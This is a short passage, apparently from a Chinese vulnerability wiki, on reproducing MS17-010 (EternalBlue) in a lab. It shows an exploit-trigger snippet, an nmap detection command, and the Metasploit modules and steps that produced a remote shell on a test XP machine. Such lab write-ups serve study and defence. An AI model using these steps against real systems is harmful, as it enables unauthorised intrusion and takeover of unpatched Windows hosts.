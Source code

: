 十、最后断开链接触发命令执行：

        for sk in srvnetConn:
           sk.close()

### 漏洞复现

使用nmap探测系统版本，以及是否存在漏洞。

**nmap -O -p 445 \--script=smb-vuln-ms17-010.nse 192.168.75.133**

![1590482590269.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-0143........)【MS17-010】Windows远程溢出漏洞/media/rId29.png)

使用msf 进入ms17-010的利用模块。

xp系统的利用模块为 **exploit/windows/smb/ms17\_010\_psexec**

win7，server 2008
利用模块为**exploit/windows/smb/ms17\_010\_eternalblue**

win8，server 2012没测试。

测试环境系统为xp系统、进入利用模块

![1590482917641.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-0143........)【MS17-010】Windows远程溢出漏洞/media/rId30.png)

set rhost 设置目标ip、run

![1590483175111.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-0143........)【MS17-010】Windows远程溢出漏洞/media/rId31.png)

成功getshell
